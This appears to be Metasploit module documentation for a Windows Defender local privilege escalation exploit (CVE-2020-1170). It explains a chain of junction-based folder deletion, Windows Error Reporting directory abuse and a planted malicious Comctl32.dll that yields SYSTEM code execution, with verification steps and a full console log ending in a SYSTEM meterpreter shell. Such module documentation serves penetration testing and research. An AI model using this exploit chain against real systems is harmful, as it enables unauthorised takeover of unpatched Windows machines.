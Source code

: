 ## Vulnerable Application

An arbitrary folder deletion vulnerability exists in Windows Defender's MpCmdRun.exe binary on MpCmdRun.exe versions prior to 4.18.2005.1.
The vulnerability occurs due to the fact that these versions of Windows Defender did not apply impersonation when copying log files of
16 MB or greater from C:\Windows\Temp\MpCmdRun.log to C:\Windows\Temp\MpCmdRun.log.bak. By creating a junction directory named
C:\Windows\Temp\MpCmdRun.log.bak, and then filling the contents of C:\Windows\Temp\MpCmdRun.log so that it is greater than 16 MB in size,
attackers can delete an arbitrary folder and its contents as the SYSTEM user.

To turn this into a LPE vulnerabilty, attackers can utilize a flaw within the Windows Error Reporting service, as described by @jonaslyk
of secret.club, whereby if the C:\ProgramData\Microsoft\Windows\WER directory does not exist (which is not normally the case), and a WER
error report is submitted, then the program C:\Windows\System32\wermgr.exe will run as SYSTEM and will create the
C:\ProgramData\Microsoft\Windows\WER directory with permissions that allow all users to access it.

This, in combination with the Windows Defender bug, allows an attacker to delete the C:\ProgramData\Microsoft\Windows\WER directory and
submit a WER error report to have it recreated with permissions that allow all authenticated users to READ, WRITE and DELETE files
contained within it. Following this, the attacker will then clear out the C:\ProgramData\Microsoft\Windows\WER directory and will
turn it into a directory junction that points to \RPC Control. Once this is done, they will then create a symbolic object link at
\RPC Control\Temp which points to \??\c:\windows\system32\wermgr.exe.local. Finally they will submit another WER error report to
cause the C:\Windows\System32\wermgr.exe.local directory to be created with permissions that allow all authenticated users to READ,
WRITE and DELETE files contained within it.

Now that C:\Windows\System32\wermgr.exe.local has finally been created with the right permissions the attacker can create the folder
C:\Windows\System32\wermgr.exe.local\amd64_microsoft.windows.common-controls_6595b64144ccf1df_6.0.18362.778_none_e6c6b761130d4fb8
and plant a malicious DLL named Comctl32.dll within it. This path is checked whenever MpCmdRun.exe is run, and if it exists,
the Comctl32.dll DLL will be loaded into MpCmdRun.exe, which will be running as SYSTEM.

As this point all the attacker has to do is delete the C:\ProgramData\Microsoft\Windows\WER directory, which ensures that
MpCmdRun.exe will run as SYSTEM and not as the user running the command, and then the malicious Comctl32.dll file will be
loaded into the MpCmdRun.exe process, which will grant the attacker SYSTEM level arbitrary code execution on the affected
host.

This module has been tested with Windows 10 v1909 x64 running MpCmdRun.exe version 4.18.1902.5

### Installation And Setup
All affected systems should have the Windows Defender installed. You will however need to make sure that no other
AV is active on the target system, or Windows Defender will be disabled. The exploit has a check for this in case
you forget though so you can check if Windows Defender is disabled or not. Testers will also need to be careful as
once Windows Defender is updated, there is no way to downgrade it again.

For these reasons testers are recommended to use a clean installation of Windows 10 v1903 or Windows 10 v1909, which should have
everything needed to test out this issue, and ensure that the target does not receive any updates. Just be sure that
the installed version of MpCmdRun.exe is a version prior to 4.18.2005.1.

## Verification Steps

1. Get a non-SYSTEM meterpreter session on any target running Windows Defender with no other AV active,
   and which has a MpCmdRun.exe file version of 4.18.2004.6 or earlier.
2. `use exploit/windows/local/cve_2020_1170_windows_defender_lpe.rb`
3. `set session <session>`
4. `set RHOST <target ip>`
5. `set LPORT <port to open on target>`
4. `exploit`
5. Verify that you get a new shell running as SYSTEM

## Options
  ### WaitTime
  Time to wait for file writes to complete before clearing the WER directory. On slower
  systems or those with lots of file activity, it is recommended to increase this number.

  ### WritableDir
  A directory that the current user can write to which will be used to store the contents of
  all the files and directories moved out of C:\ProgramData\Microsoft\Windows\WER so it can be
  deleted or turned into a directory junction when needed.

## Scenarios

### Windows 10 v1903 x64 with MpCmdRun.exe version 4.18.1902.5

```
msf5 > use exploit/windows/local/cve_2020_1170_windows_defender_lpe
[*] Using configured payload windows/x64/meterpreter/bind_tcp
msf5 exploit(windows/local/cve_2020_1170_windows_defender_lpe) > set SESSION 17
SESSION => 17
msf5 exploit(windows/local/cve_2020_1170_windows_defender_lpe) > set PAYLOAD windows/x64/meterpreter/bind_tcp
PAYLOAD => windows/x64/meterpreter/bind_tcp
msf5 exploit(windows/local/cve_2020_1170_windows_defender_lpe) > set LPORT 6655
LPORT => 6655
msf5 exploit(windows/local/cve_2020_1170_windows_defender_lpe) > set RHOST 169.254.162.16
RHOST => 169.254.162.16
msf5 exploit(windows/local/cve_2020_1170_windows_defender_lpe) > show options

Module options (exploit/windows/local/cve_2020_1170_windows_defender_lpe):

   Name         Current Setting   Required  Description
   ----         ---------------   --------  -----------
   SESSION      17                yes       The session to run this module on.
   WaitTime     30                yes       Number of seconds to wait for background file writes to complete before clearing the WER directory
   WritableDir  C:\Windows\Temp\  yes       The location of a directory the current user can write to


Payload options (windows/x64/meterpreter/bind_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LPORT     6655             yes       The listen port
   RHOST     169.254.162.16   no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Windows DLL Dropper

msf5 exploit(windows/local/cve_2020_1170_windows_defender_lpe) > exploit

[*] Executing automatic check (disable AutoCheck to override)
[+] C:\Windows\Temp\MpCmdRun.log.bak doesn't exist on the target!
[*] Version 4.18.1902.5 of MpCmdRun.exe detected on target!
[+] Target appears to have an outdated version of MpCmdRun.exe that is being actively used.
[+] The target appears to be vulnerable.
[*] Uploading the PowerShell file that will run the main exploit along with the DLL to support its operations...
[+] Uploaded necessary files and registered them for cleanup!
[*] Moving folders out of C:\ProgramData\Microsoft\Windows\WER so that we can delete the folder...
[*] Making the temp folder which will house the folders that we move out of the WER directory...
[*] cd'ing to relocation directory and relocating the folders...
[*] Moving files out of the WER directory into the relocation directory...
[*] Changing directory back to the writable directory...
[+] Successfully moved the folders out of C:\ProgramData\Microsoft\Windows\WER!
[*] Triggering the vulnerability, this usually takes about 40 to 60 minutes to complete...
[+] Successfully triggered the arbitrary file deletion vulnerability!
[*] Sleeping for 30 seconds to ensure any extra operations on the WER directory go through before we try and clear it up.
[*] Moving folders out of C:\ProgramData\Microsoft\Windows\WER so that it can be turned into a directory junction...
[*] Making the temp folder which will house the folders that we move out of the WER directory...
[*] cd'ing to relocation directory and relocating the folders...
[*] Moving files out of the WER directory into the relocation directory...
[*] Changing directory back to the writable directory...
[+] Successfully moved the folders out of C:\ProgramData\Microsoft\Windows\WER!
[*] Creating the directory junction...
[+] Created the directory junction successfully!
[+] Created the symbolic link between \RPC Control\Temp and \??\c:\windows\system32\wermgr.exe.local successfully!
[*] Starting the WER job to create the C:\Windows\System32\wermgr.exe.local directory...
[+] Successfully created the WER job!
[*] Closing symbolic link handle...
[+] Closed symlink handle!
[*] Cleaning up by removing the WER junction directory...
[+] Removed the WER junction directory!
[+] Successfully created C:\Windows\System32\wermgr.exe.local\amd64_microsoft.windows.common-controls_6595b64144ccf1df_6.0.18362.778_none_e6c6b761130d4fb8
[*] Uploading malicious DLL as Comctl32.dll to created directory for a DLL planting attack...
[+] Successfully uploaded the malicious Comctl32.dll file!
[*] Starting the WER job to gain a shell...
[+] Successfully created the WER job!
[*] All done!
[!] Be sure to remove C:\Windows\Temp\MpCmdRun.log.bak manually from within a normal command shell!
[!] You can do this by running `shell`, then typing `del C:\Windows\Temp\MpCmdRun.log.bak`
[*] Started bind TCP handler against 169.254.162.16:6655
[*] Sending stage (201283 bytes) to 169.254.162.16
[*] Meterpreter session 19 opened (0.0.0.0:0 -> 169.254.162.16:6655) at 2020-07-22 16:30:40 -0500
[+] Deleted C:\Windows\Temp\\FKYhtZaobB
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-EMAVUN1
OS              : Windows 10 (10.0 Build 18363).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 19...
msf5 exploit(windows/local/cve_2020_1170_windows_defender_lpe) > sessions

Active sessions
===============

  Id  Name  Type                     Information                             Connection
  --  ----  ----                     -----------                             ----------
  17        meterpreter x64/windows  DESKTOP-EMAVUN1\test @ DESKTOP-EMAVUN1  0.0.0.0:0 -> 169.254.162.16:4444 (169.254.162.16)
  19        meterpreter x64/windows  NT AUTHORITY\SYSTEM @ DESKTOP-EMAVUN1   0.0.0.0:0 -> 169.254.162.16:6655 (169.254.162.16)
```
